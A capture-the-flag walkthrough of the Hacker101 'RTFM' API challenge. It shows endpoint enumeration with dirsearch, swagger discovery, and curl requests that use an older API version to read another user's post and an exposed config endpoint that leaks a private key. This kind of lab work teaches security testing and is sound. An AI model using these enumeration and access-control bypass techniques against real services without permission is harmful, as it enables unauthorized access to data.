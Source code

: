 # Hacker101 RTFM

https://ctf.hacker101.com/ctf

```bash
% export BASE_URL='https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com'
```

We don't get much for starters:

```bash
% curl ${BASE_URL}
API base located at /api/v1/
% curl ${BASE_URL}/api/v1
["Endpoint not found"]
```

I've been using `dirsearch` (https://github.com/maurosoria/dirsearch) to 
enumerate endpoints:

```bash
% python3 dirsearch.py -u ${BASE_URL}

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[15:15:36] Scanning: 
[15:16:07] 200 -    3KB - /api/v2/swagger.json                              
                                                                             
Task Completed
```

That's something! Off to a good start:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq
{
  "swagger": "2.0",
  "flag": "FLAG",
  "info": {
[...]
```

We get a handful of endpoints:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq '.paths' | grep '^  "'     
  "/api/v2/user": {
  "/api/v2/user/login": {
  "/api/v2/admin/user-list": {
  "/api/v2/user/posts/{id}": {
```

`/api/v2/user` POST endpoint is unauthenticated - that's promising. So is 
`/api/v2/user/login`, but that requires a username and a password (maybe 
something to look at later).

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user
{"username":"pizza","flag":"FLAG","message":"User created go to \/api\/v2\/user\/login to login"}%
% 
```

Let's start a session as well:

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user/login
{"session":"edf12810e48a2bcf2d039b8d31851622"}%
```

Let's check out some endpoints:

```bash
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user           
{"username":"pizza"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/admin/user-list
{"error":"Your user level needs to be an admin"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/1
{"error":"Post does not belong to you"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/2
{"error":"Post does not exist"}
```

Not much. What about those `/api/v1` endpoints the home page mentioned?

```bash
% curl ${BASE_URL}/api/v1/swagger.json                                  
["Endpoint not found"]
%
curl ${BASE_URL}/api/v1/login
["Endpoint not found"]
%
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v1/user/login
{"token":"a15bb21c251d356c1b77c0064bc58859"}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/user/posts/1
{"id":1,"post":"You got the Post: FLAG","analytics":"\/api\/v1\/post-analytics\/3c8a6664b8203c2e0b2b24972ccf5ce3"}
% 
```

Alright! A flag, and a bonus endpoint to boot. Anything there?

```bash
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/3c8a6664b8203c2e0b2b24972ccf5ce3
{"hash":"3c8a6664b8203c2e0b2b24972ccf5ce3","post":1,"views":34373}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/
{"campaigns":["3c8a6664b8203c2e0b2b24972ccf5ce3"]}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/3c8a6664b8203c2e0b2b24972ccf5ce3
["Endpoint not found"]
%
```

Maybe worth exploring. Possibly something we can explore in the v2 API as well? 
Let's put a pin in that for the time being. We've got three out of eight flags,
let's start back at the top 

Let's hit the API endpoints we know about with `dirsearch` again:

```
% python3 dirsearch.py -u ${BASE_URL}/api/v1/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[16:10:32] Scanning: api/v1/
[16:11:13] 200 -   132B - /api/v1/config
[16:11:13] 200 -   132B - /api/v1/config/
[16:11:39] 403 -    51B - /api/v1/secrets
[16:11:39] 403 -    51B - /api/v1/secrets/
[16:11:41] 200 -    13B - /api/v1/status?full=true
[16:11:41] 200 -    13B - /api/v1/status
[16:11:41] 200 -    13B - /api/v1/status/
[16:11:49] 400 -    49B - /api/v1/user
[16:11:49] 400 -    49B - /api/v1/user/

Task Completed
% python3 dirsearch.py -u ${BASE_URL}/api/v2/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[16:22:40] Scanning: api/v2/
[16:23:57] 200 -    3KB - /api/v2/swagger.json                              
[16:24:00] 400 -    51B - /api/v2/user                                      
[16:24:00] 400 -    51B - /api/v2/user/                                     
                                                                             
Task Completed
%
% # That's something! 
% curl ${BASE_URL}/api/v1/config 
{"server":"Neptune","version":"1.3.94","private_key":"FLAG"}%    
```

Halfway there! That secrets endpoint looks interesting, too - I think if we can 
find a way to get admin access we could probably get a flag or two. 

